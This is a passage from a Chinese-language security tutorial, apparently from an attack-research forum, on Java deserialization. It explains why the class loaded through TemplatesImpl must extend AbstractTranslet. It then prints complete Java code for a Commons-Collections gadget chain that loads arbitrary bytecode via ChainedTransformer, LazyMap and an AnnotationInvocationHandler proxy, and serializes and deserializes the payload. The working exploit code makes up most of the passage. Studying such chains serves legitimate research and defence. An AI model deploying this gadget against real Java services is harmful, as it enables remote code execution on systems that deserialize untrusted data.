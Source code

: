 ‍

这里有个要注意的点

- 455行会去进行强制类型转换为`AbstractTranslet`类，那我们是不是要传该类进来呢？

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-407f23d1d80bbdb83870e675c1b0d703b734aca4.png)

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-41a04f5c056f171d51d97a1dafc850b61aa1cf9b.png)

在这个地方他会去判断这个父类是否为 `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`

所以加载的字节码文件要是集成了`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`这个的类

- 这里`_bytecodes` 不能为空

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-bacac49afcf2cb9cac265816a3b922ae6bb81f5f.png)

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4d0eaa78735da74f3843a4fff291d185a7cc3428.png)

‍

那么后半段执行代码的点就可以修改了，其实跟CC1基本都不变，只是修改了一下执行代码的形式，

```java
        TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");
        Field _tfField = tc.getDeclaredField("_tfactory");
        _tfField.setAccessible(true);
        _tfField.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null, null)};

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);

        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = cls.newInstance(Override.class,maproxy);

        serialize(o);
        unserialize("ser.bin");
```
